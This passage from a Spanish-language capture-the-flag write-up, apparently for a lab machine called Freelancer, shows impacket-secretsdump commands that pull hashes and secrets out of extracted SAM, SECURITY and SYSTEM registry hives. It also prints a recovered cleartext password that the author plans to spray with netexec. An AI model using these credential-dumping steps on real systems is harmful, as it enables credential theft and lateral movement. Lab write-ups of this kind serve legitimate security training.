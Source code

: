![secretDUMP](../../../../../assets/Freelancer/secretdump.png)

Con esta informacion podemos empezar a jugar, para usar este impacket, empezemos con el archivo SAM

```
impacket-secretsdump -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive  -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL
```
Tenemos que pasar le el archivo system tambien ya que estamos en un analisis local, a si que mucho ojo con eso.

![SAM](../../../../../assets/Freelancer/SAM.png)

He de reconocer que me ilucione con el hash del administrador, pero NOOO, fue solo una trampa, al probar lo con netexec encontre que no era valido y no podiamos hacer el passTheHash a sique nos quedab aun inspeccionar el archivo SECURITY.

```
impacket-secretsdump -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive  -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL
```
Es el mismo procedimiento que con el archivo sam, esto nos informa de una nueva credencial. `PWN3D#l0rr@Armessa199` vamos a probar con nxc, a ver si hay algun usuario al qie corresponda esta password
